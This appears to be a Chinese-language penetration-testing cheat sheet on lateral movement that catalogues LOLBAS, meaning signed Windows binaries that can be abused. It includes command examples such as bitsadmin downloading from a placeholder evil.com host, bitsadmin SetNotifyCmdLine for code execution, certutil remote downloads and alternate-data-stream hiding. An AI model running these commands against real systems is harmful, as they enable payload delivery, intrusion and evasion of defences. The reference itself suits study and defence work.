 # 1.5 横向移动

## 横向移动

### 常见入口

* SMB弱密码
* SqlServer弱密码

### LOLBAS

简介

```
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
```

* appsyncvpublishing.exe
  * 执行powershell
* bitsadmin.exe
  * 下载文件 `bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>`
  * 下载文件 `bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1`
  * 复制文件 `bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset`
  * 代码执行 `bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset`
* cdb.exe
* certutil.exe
  * 可安装、备份、删除、管理和执行证书
  * 证书存储相关功能
  * 下载文件 `certutil -urlcache -split -f https://addr/example.exe`
  * 注意 certutil 是有cache的，需要显式删除
  * base64 编解码 `certutil -encode` / `certutil -decode`
* cmd.exe
* cmstp.exe
* control.exe
  * `加载dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`\_
* csc.exe
  * 编译 C# 载荷
* cscript.exe
  * 执行脚本
* extexport.exe
* expand.exe
  * 展开一个或多个压缩文件
* forfiles.exe
  * `forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe`
* mofcomp.exe
* makecab.exe
* msbuild.exe
  * 构建应用程序
* mshta.exe
  * HTML应用
* msiexec.exe
  * 安装msi
  * 加载dll
* msxsl.exe
  * 处理XSL程序
* netsh.exe
* installutil.exe
  * 安装/卸载程序组件
* IEExec.exe
  * .NET Framework附带程序
* powershell.exe
* psexec.exe
  * https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
* reg.exe
  * 注册表控制台
* regedit.exe
  * 注册表修改
* regsvr32.exe
  * 注册动态链接库/ActiveX控件
* rundll32.exe
  * 执行DLL文件中的内部函数
* sc.exe
  * 查看服务状态管理
* schtasks.exe
  * 定时计划任务
* shred
  * 重复写入文件，防止文件恢复
* type.exe
  * 利用ads隐藏文件 `type <filepath> <target_file:ads>`
* wmic.exe
  * Windows管理工具
* windbg.exe
* winrm.exe
* wscript.exe
  * 脚本引擎
* waitfor.exe
  * 用于同步网络中计算机，可以发送或等待系统上的信号。
